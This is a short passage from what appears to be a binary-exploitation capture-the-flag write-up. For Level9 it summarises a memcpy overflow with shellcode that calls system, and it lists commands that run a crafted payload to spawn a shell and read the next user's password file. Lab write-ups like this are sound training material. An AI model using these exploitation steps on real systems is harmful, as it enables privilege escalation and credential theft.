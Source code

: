 ## Level9:
### Code after RE:
![level9.png](ressource/level9.png)
### Solution:
- We can overwrite the memory of the two class through the ``setAnnotation`` function which use a dirty ``memcpy``.
- We craft a payload with a shellcode that will call the ``system`` function.
- ``python3 ./level9/craft_payload.py && scp -P 4243 ./payload level9@localhost:/tmp/payload``
- ``./level9 $(cat payload)`` (This spawn a shell as bonus0 user)
- ``cat /home/user/bonus0/.pass``
### Result:
    f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728


## Bonus0:
### Code after RE: